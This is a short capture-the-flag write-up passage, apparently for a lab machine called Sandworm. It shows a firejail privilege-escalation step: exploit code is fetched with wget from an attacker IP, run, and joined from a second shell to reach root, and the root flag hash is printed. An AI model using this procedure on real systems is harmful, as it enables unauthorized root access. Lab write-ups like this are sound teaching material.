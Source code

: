 
As we know we are getting shell to run firejoin exploit right ? So we need two shell keep in mind ..!!

Got shell.>!!!


![[Pasted image 20230625041745.png]]

~~~
cd /tmp
~~~

~~~
wget http://10.10.16.98/firejoin.py
~~~

~~~
chmod +x firejoin.py
~~~

~~~
python3 firejoin.py
~~~

~~~
atlas@sandworm:/tmp$ python3 firejoin.py.1
You can now run 'firejail --join=462065' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.
~~~


For getting root flag..!!

In other shell,

~~~
firejail --join=462065
~~~

~~~
su
~~~

~~~
cat /root/root.txt
233151bfaf746d8e39b0f3daa01e41a2
~~~

![[Pasted image 20230625042014.png]]